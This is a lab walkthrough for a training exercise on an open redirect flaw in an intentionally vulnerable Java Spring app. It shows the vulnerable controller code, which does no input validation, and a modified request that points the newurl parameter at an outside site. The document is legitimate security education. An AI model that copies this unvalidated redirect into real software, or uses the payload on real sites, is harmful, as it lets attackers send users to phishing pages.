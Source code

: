 # KBID 67 Open Redirect

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows that there is a new version of the website available somewhere, and a click on the button "Go to new website" will redirect you to it.

![](../../.gitbook/assets/java/Url-redirection/1.png)

If we click on the button we will be redirected on the new page [http://localhost:5000/newsite](http://localhost:5000/newsite)

#### Step 2

Intercepting the traffic generated by the application, we note that the redirection is performed using the following call

```text
GET /redirect?newurl=newsite
```

that will generate a 302 Redirect response from the server.

Inspecting the source code, it's possible to see no input validation of _newurl_ query string parameter is in place.

```java
public String redirect(@RequestParam(name="newurl", required=true) String newurl, Model model) {
		return "redirect:"+newurl;
	}
```

## Exploitation

The exploitation is pretty straightforward.
Replay the redirection request, but at this time change the value of _newurl_ into another URL.

_Original request_

```text
http://localhost:5000/redirect?newurl=newsite
```

_Modified request_

```text
http://localhost:5000/redirect?newurl=https://google.com
```

Using the payload above we will be able to successfully redirect a user to a malicious website

## Additional sources

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/04-Testing_for_Client_Side_URL_Redirect" %}
